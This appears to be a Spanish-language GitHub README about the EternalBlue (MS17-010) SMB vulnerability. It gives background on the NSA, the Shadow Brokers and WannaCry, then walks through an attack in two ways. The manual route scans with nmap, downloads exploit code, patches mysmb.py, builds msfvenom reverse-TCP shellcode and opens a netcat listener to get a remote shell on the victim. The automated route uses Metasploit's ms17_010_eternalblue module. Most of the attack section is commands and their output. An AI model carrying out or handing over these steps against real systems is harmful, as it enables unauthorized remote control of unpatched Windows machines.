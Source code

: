 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. Si bien es cierto que a día de hoy esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que en la actualidad hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas.

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, hay que sustituir las líneas 229 y 230 por:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)

Si ejecutamos el checker ya funciona correctamente:

![4](https://user-images.githubusercontent.com/75953873/188350245-47a40103-1139-4f99-876a-8abbde4c9e0a.png)

Named pipes aceptados: browser, netlogon, lsarpc, samr.

Posiblemente les lance el siguiente error de autenticación de usuario:

![7](https://user-images.githubusercontent.com/75953873/189492357-69c6b1dd-33fa-4555-930c-5ad4b2ae8109.png)

Así que probemos con otro exploit más actualizado: https://github.com/3ndG4me/AutoBlue-MS17-010

![8](https://user-images.githubusercontent.com/75953873/189492436-04e8382c-bcbb-46ad-b73f-f55629b52f5e.png)

Hay varias versiones del exploit, el que nos interesa es `eternalblue_exploit7.py`. Seguidamente, generamos una shellcode con msfvenom para escuchar las conexiones de la máquina:
```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP-LOCAL> LPORT=<PUERTO> -f exe -o <DIRECTORIO/NOMBRE>
```
![9](https://user-images.githubusercontent.com/75953873/189492832-47a6b221-db9c-4ee3-995f-3b14251ee22e.png)

Después ejecutamos Netcat y ponemos a escucha el puerto del shellcode:
```
nc -lvnp
```

Finalmente ejecutamos el exploit 7 con la ruta del shellcode generado:
```
python3 eternalblue_exploit7.py <IP> <SHELLCODE>
```
![10](https://user-images.githubusercontent.com/75953873/189492954-a904b963-6491-407c-99cd-7416ad9214f1.png)

En la terminal de Netcat se abrirá una shell remota en donde podemos interactuar con la máquina víctima:

![11](https://user-images.githubusercontent.com/75953873/189493003-dd72ab81-16e2-431b-9178-c7127a5ffec8.png)

Es **IMPORTANTE** aclarar que eternalblue no siempre funciona a la primera, es por eso que hay que reintentar nuevamente hasta que la conexión se establezca.

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Automatizado con Metasploit

Si bien es cierto que hacerlo manual lleva más tiempo, es aquí donde entra Metasploit para facilítarnos la vida. Personalmente prefiero llevar el ataque de forma manual, pero tampoco quiero olvidarme de los fans de Metasploit; que en sí no es malo utilizarlo, sino hacerlo sin tener idea de que ocurre por detrás del proceso. Para comenzar con el procedimiento, podemos verificar si la máquina es vulnerable a eternalblue con el scanner ya incorporado del framework:
```
msfconsole
search eternalblue scanner
use auxiliary/scanner/smb/smb_ms17_010  |  use 0
set RHOSTS <IP>
```
![12](https://user-images.githubusercontent.com/75953873/189494844-dfe29158-4686-471f-b2b4-684974ef84d9.png)

El host es vulnerable:

![13](https://user-images.githubusercontent.com/75953873/189494874-d7e1d03c-aaeb-41de-93ee-ea52e7c0fbf8.png)

Por último, seleccionamos el exploit `ms17_010_eternalblue` y configuramos el RHOSTS nuevamente:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <IP>
```
![14](https://user-images.githubusercontent.com/75953873/189494935-f8034937-e535-4bd7-bf98-e62d28c85075.png)

Metasploit se encargará de ejecutar el exploit las veces que sea necesario para obtener una shell remota, como mencione más arriba, eternalblue no siempre funciona a la primera (el host anterior fue reemplazado).

![15](https://user-images.githubusercontent.com/75953873/189495269-8279bc78-7a70-446f-ba9e-b8ed896a5411.png)
